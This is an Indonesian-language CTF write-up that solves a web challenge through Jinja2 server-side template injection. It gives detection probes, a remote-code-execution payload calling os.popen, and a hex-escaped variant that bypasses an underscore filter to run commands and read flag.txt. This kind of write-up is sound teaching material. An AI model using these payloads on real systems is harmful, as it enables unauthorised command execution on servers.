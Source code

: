 #CTF #MonthlyCTF24 #WriteUp #WebExploitation #SSTI #Jinja2

>**Flag:** `PC24{h4T1_H4tI_W1Th_SSTI_BTW}`
### Soal:
![SiSiTI0.png](./img/SiSiTI0.png)
### Write Up:
Dalam soal, sudah diberi petunjuk yang jelas bahwa soal ini termasuk dalam kerentanan [[-Server Side Template Injection (SSTI)]]. 
![SiSiTI1.png](./img/SiSiTI1.png)
Sesuai deskripsi soal kita coba memasukkan `{{7*7}}` dengan mengacu pada tabel gambar dibawah
![[ssticheck.png]]
`{{7*7}}` menghasilkan output 49, kita lanjut dengan `{{7*'7'}}` maka hasilnya `7777777`. Dari sini dapat dipastikan bahwa ini adalah `jinja2`. Kita bisa gunakan [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) untuk mencari flag.

Pertama, mencoba dengan Exploit SSTI dengan memanggil `os.popen().read()`
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Output:
![SiSiTI2.png](./img/SiSiTI2.png)
Tampaknya disini `_` dilarang untuk digunakan. Cari cara untuk bypass hal tersebut.
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
`\x5f` mempresentasikan `_` dalam bentuk hex

Output:
![SiSiTI3.png](./img/SiSiTI3.png)
Sekarang kita tinggal mencari flagnya. Ganti `id` menjadi `ls` untuk melihat isi directory.
![SiSiTI4.png](./img/SiSiTI4.png)
read `flag.txt` dengan `cat flag.txt` dan **FLAG HAS BEEN FOUND!!**
